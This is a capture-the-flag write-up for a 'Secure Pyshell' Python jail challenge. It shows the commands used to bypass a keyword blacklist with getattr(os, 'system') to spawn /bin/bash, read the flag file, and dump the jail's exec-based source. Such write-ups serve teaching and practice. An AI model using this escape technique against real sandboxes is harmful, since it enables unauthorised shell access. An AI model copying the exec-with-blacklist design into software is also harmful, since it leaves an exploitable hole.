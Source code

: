 **Secure Pyshell - 100pts**

A friend of mine is die hard fan of python . He created a python interpreter of his own And claims to be very secure , prove him he is wrong. He loves Trump, btw. 
 nc 139.59.61.220 22345 


Rapidly we found that's we have a python3 interpreter : 

```BASH
 nc 139.59.61.220 22345 

Welcome to Secure Python Interpreter 
================================================

Rules:
    -Do not import anything
    -No peeking at files!
    -No sharing of flags :)


>>> print "1"
Error: print "1"
>>> print("1")
1
```

We can't use "." or simple quote ' and some basic fonctions are blacklisted :

```BASH
>>> quit
Do you think my code is so insecure ?
You can never get out of my jail :)
>>> eval
Do you think my code is so insecure ?
You can never get out of my jail :)
>>> print(__builtins__)
<module 'builtins' (built-in)>
>>> print(__builtins__.__class__)       
Do you think my code is so insecure ?
You can never get out of my jail :)
```

We found an interesting Jail fonction :

```BASH
>>> print(dir())
['Jail', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'a', 'cmd', 'execute', 'intro', 'os', 'sys']
```

But nothing to deal with it...

```BASH
>>> print(Jail)
<class '__main__.Jail'>
>>> print(Jail())
<__main__.Jail object at 0x7ffff6280518>
>>> print(Jail(0))
<__main__.Jail object at 0x7ffff6280358>
>>> print(Jail(1))
<__main__.Jail object at 0x7ffff6280320>
```

Other interessant things : 'os' and 'sys' are imported !
We want to escape the jail so how can we exec a shell like /bin/bash ?
But we don't have the right to use "."
The trick here is to use the getattr function !
"getattr(object, name[, default])
Return the value of the named attribute of object.  name must be a string. If the string is the name of one of the object’s attributes, the result is the value of that attribute.  
For example, getattr(x, 'foobar') is equivalent to x.foobar.  If the named attribute does not exist, default is returned if provided, otherwise AttributeError is raised."

```BASH
print(getattr(os, "system")("/bin/bash"))
id
uid=1003(pwn2) gid=1003(pwn2) groups=1003(pwn2)
cd /home/pwn2
ls -lsa
4 dr-xr-x---  2 root    pwn2    4096 Feb 25 14:20 .
4 drwxr-xr-x 12 root    root    4096 Feb 27 06:32 ..
4 ----r-----  1 root    pwn2      48 Feb 25 07:14 flag.txt
4 -rwxr-xr-x  1 skamath skamath 1386 Feb 25 14:20 pwn2

cat flag.txt
xiomara{$h3ll$_d0nT_l!3_wh3n_beat3n_uP_!n_j@!l}
```

For the fun, the script from this chall ;-) :

```BASH
cat pwn2
#!/usr/bin/python3
import sys, cmd, os

del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']

intro = """
Welcome to Secure Python Interpreter 
================================================

Rules:
    -Do not import anything
    -No peeking at files!
    -No sharing of flags :)

"""


def execute(command):
       exec(command, globals())
 
class Jail(cmd.Cmd):
 
    prompt     = '>>> '
    filtered    = '\'|.|input|if|else|eval|exit|import|quit|exec|code|const|vars|str|chr|ord|local|global|join|format|replace|translate|try|except|with|content|frame|back'.split('|')
 
    def do_EOF(self, line):
        sys.exit()
 
    def emptyline(self):
        return cmd.Cmd.emptyline(self)
 
    def default(self, line):
        sys.stdout.write('\x00')
 
    def postcmd(self, stop, line):
        if any(f in line for f in self.filtered):
            print("Do you think my code is so insecure ?")
            print("You can never get out of my jail :)")
        else:
           try:
                execute(line)
           except NameError:
                print("NameError: name '%s' is not defined" % line)
           except Exception:
                print("Error: %s" % line)
        return cmd.Cmd.postcmd(self, stop, line)
 
if __name__ == "__main__":
    try:
        Jail().cmdloop(intro)
    except KeyboardInterrupt:
        print("\rBye bye !")
```

By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
